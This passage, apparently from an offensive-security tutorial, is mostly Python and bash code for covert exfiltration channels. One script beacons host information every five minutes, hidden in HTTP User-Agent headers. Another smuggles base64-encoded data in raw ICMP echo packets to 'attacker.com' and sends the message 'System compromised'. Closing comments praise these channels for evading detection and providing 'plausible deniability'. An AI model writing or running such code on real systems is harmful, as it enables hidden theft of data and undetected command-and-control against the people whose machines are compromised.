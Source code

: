 ```bash
    return modified_agent

def covert_beacon():
    """Send periodic beacons with hidden data"""
    while True:
        try:
            # Get system info
            import platform
            info = f"{platform.node()}:{platform.system()}"
            
            headers = {"User-Agent": hide_in_user_agent(info)}
            requests.get("http://legitimate-site.com", headers=headers, timeout=5)
        except:
            pass
        time.sleep(300)  # 5 minute intervals

covert_beacon()
EOF

# ICMP covert channel
cat > icmp_covert.py << 'EOF'
#!/usr/bin/env python3
import socket
import struct
import base64
import subprocess

def create_icmp_packet(data):
    """Create ICMP packet with hidden data"""
    # ICMP header
    icmp_type = 8  # Echo request
    icmp_code = 0
    icmp_checksum = 0
    icmp_id = 12345
    icmp_seq = 1
    
    # Hide data in ICMP payload
    payload = base64.b64encode(data.encode()).decode().encode()
    
    # Pack ICMP header
    icmp_header = struct.pack('!BBHHH', icmp_type, icmp_code, icmp_checksum, icmp_id, icmp_seq)
    packet = icmp_header + payload
    
    return packet

def send_covert_icmp(target, data):
    """Send data via ICMP packets"""
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
        packet = create_icmp_packet(data)
        sock.sendto(packet, (target, 0))
        sock.close()
    except:
        pass

# Usage
send_covert_icmp("attacker.com", "System compromised")
EOF

# Why covert channels are advanced techniques:
# - Extremely difficult to detect without deep analysis
# - Uses legitimate protocols and services
# - Provides plausible deniability
```